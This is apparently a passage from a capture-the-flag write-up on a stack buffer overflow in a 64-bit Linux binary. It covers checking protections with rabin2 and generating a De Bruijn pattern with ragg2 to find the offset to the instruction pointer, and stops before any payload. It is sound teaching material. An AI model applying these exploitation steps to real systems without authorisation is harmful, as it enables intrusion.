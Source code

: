 ```shell

$ 
```

Great instead of printing the prompt again, the connection immediately exit after printing the ascii art, this means we probably did overwrite the return address stored in the stack, thus crashing the binary.

Using `rabin2` from the [radare2](http://rada.re/r/) suite, we can get some info from the binary:

```shell
$ rabin2 -I server
arch     x86
binsz    12597
bintype  elf
bits     64
canary   false
class    ELF64
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
static   false
stripped false
subsys   linux
va       true
$ 
```

Great no [stack canary](https://en.wikipedia.org/wiki/Stack_buffer_overflow), but the stack is not executable ([NX Bit](https://en.wikipedia.org/wiki/NX_bit) enabled). 

The next step is to know from what offset we start controlling the instruction pointer **rip**, we can do this manually by trying different lengths, but we can also use `ragg2` to generate a [Debruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) and calculate the exact offset after the crash. 

The size of wrap's stack frame is **0x70** (112 in decimal), so let's generate a sequence slightly greater than 112

```shell
$ ragg2 -r -P 140
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuA
$ 
```
